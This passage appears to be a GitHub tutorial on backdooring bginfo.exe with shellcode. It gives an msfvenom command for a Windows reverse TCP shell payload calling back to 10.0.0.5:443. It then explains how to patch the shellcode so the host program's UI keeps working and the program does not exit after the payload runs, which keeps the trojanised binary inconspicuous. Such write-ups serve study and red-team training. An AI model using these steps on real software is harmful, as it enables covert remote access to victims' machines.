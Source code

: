 ```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```
The reason the bginfo.exe is not showing any UI is because the thread is blocked by the shellcode call to ```WaitForSingleObject``` function (see definition below). It's called with an argument ```INFINITE``` (-1 or 0xFFFFFFFF‬), meaning the thread will be blocked forever.

```WaitForSingleObject``` definition:
```
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

The below screenshot shows that EAX points to ```WaitForSingleObject``` which is going to be jumped to with ```jmp eax``` at 004d8081. Note the stack - it contains the thread handle (28c) to block and the wait time FFFFFFFF == INFINITE which is the second argument for ```WaitForSingleObject```:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/9d1461ce-d590-4127-bbee-47b520af4283)

Instruction ```dec esi``` at 004d811b changes ESI value to -1 (currently ESI = 0), which is the value pushed to the stack as an argument ```dwMilliSeconds``` for ```WaitForSignaledObject```:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/4a356210-494b-41de-b357-58ed7ccf1a1a)

Let's NOP that instruction, so that ESI stays unchanged at 0, which means that ```WaitForSingleObject``` will wait 0 seconds before unblocking the UI:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/c2ca7122-80c2-4bdf-a3e1-f45acc716f79)

## Restoring Stack Frame & Jumping Back

Next, we need to patch the ```call ebp``` instruction at 004d8144 if we don't want the shellcode to close the bginfo.exe process:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/2365da84-5fd0-4dd8-8520-bc2f3ffceaf4)

We will do this by replacing this instruction with an instruction that will restore our stack frame pointer ESP to what it was before we started executing our shellcode, but after we executed ```pushad``` and ```pushfd``` instructions as mentioned in point 7.

From earlier, the ```ESP``` after ```pushad``` and ```pushfd``` was ```0019ff30```:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/a8cfa19e-579b-4890-bb55-1f4473da2659)

```ESP``` after executing the shellcode was ```0019fd2c```:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/e52ffe96-fa39-4193-9f78-0db2e8a56f13)

Which means that the stack grew by 204h bytes:

![Capture d'écran 2024-07-04 231553](https://github.com/0x074b/Code-Process_Injection/assets/83349783/3924a807-ea4e-4e0e-b3d7-e4ecf249051e)

<ul>
  <li>Knowing all of the above, we need to:</li>
  <ul>
    <li>restore the stack by increasing the ESP by 0x204 bytes</li>
    <li>restore registers and flags with <em><strong>popfd</strong></em> and <em><strong>popad</strong></em></li>
```